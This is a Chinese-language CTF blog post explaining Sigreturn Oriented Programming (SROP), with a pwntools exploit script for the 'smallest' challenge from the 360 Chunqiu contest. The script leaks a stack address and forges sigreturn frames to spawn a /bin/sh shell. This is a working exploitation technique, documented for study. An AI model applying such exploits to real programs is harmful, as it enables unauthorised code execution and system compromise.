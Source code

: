 ```yaml
---
title: SROP
date: 2018-02-21 19:58:12
categories: 
tags: 
	- CTF
	- SROP
---
```



SROP全称为 Sigreturn Oriented Programming ，表明利用sigreturn这个函数实现ROP的技术。


### 参考资料

http://www.freebuf.com/articles/network/87447.html
http://bobao.360.cn/learning/detail/3694.html
http://bobao.360.cn/learning/detail/3675.html
http://mutepig.club/index.php/archives/55/
http://www.angelwhu.com/blog/?p=504


### Signal机制

[![img](SROP/srop_1.png)](https://amliaw4.github.io/image/srop_1.png)

1.
首先，当由中断或异常产生时，会发出一个信号，然后会送给相关进程，此时系统切换到内核模式。

内核会执行do_signal()函数，最终会调用setup_frame()函数来设置用户栈。
（在栈中保存了进入内核前所有寄存器的信息，还会push一个 signal function 的返回地址——sigruturn()的地址）

2.
当这些准备工作完成后，就开始执行由用户指定的signal function了。
（调用的函数）

3.
当执行完后，因为返回地址被设置为sigreturn()系统调用的地址了，所以此时系统又会陷入内核执行sigreturn()系统调用。
（恢复保存的寄存器的信息）

### 利用思路

由于程序中并没有sigreturn调用，所以我们得自己构造，正好这里有read函数调用，所以我们可以通过read函数读取的字节数来设置rax的值。

重要思路如下

通过控制read读取的字符数来设置RAX寄存器的值，从而执行sigreturn
通过syscall执行execve(“/bin/sh”,0,0)来获取shell。

### 示例

这里以360春秋杯中的smallest-pwn为例

```
#coding=utf8
from pwn import *
from LibcSearcher import *
small = ELF('./smallest')
# if args['REMOTE']:
#     sh = remote('127.0.0.1', 7777)
# else:
sh = process('./smallest')
context.arch = 'amd64'
context.log_level = 'debug'
syscall_ret = 0x00000000004000BE
start_addr = 0x00000000004000B0
## set start addr three times

payload = p64(start_addr) * 3
# gdb.attach(sh)
sh.send(payload)

## modify the return addr to start_addr+3
## so that skip the xor rax,rax; then the rax=1
## get stack addr

# gdb.attach(sh)
sh.send('\xb3')

stack_addr = u64(sh.recv()[8:16])
print "stack_addr = " + hex(stack_addr)
log.success('leak stack addr :' + hex(stack_addr))


## make the rsp point to stack_addr
## the frame is read(0,stack_addr,0x400)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
print "constants.SYS_read = " + hex(sigframe.rax)
sigframe.rdi = 0
sigframe.rsi = stack_addr
sigframe.rdx = 0x400
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret

payload = p64(start_addr) + 'a' * 8 + str(sigframe)

# gdb.attach(sh)
sh.send(payload)

## set rax=15 and call sigreturn
sigreturn = p64(syscall_ret) + 'A' * 7  # 覆盖上面的 'a'*8

# gdb.attach(sh)
sh.send(sigreturn)

## call execv("/bin/sh",0,0)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = stack_addr + 0x120  # "/bin/sh" 's addr
sigframe.rsi = 0x0
sigframe.rdx = 0x0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret

frame_payload = p64(start_addr) + 'b' * 8 + str(sigframe)
print len(frame_payload)
payload = frame_payload + (0x120 - len(frame_payload)) * '\x00' + '/bin/sh\x00'

# gdb.attach(sh)
sh.send(payload)

# gdb.attach(sh)
sh.send(sigreturn)

sh.interactive()
```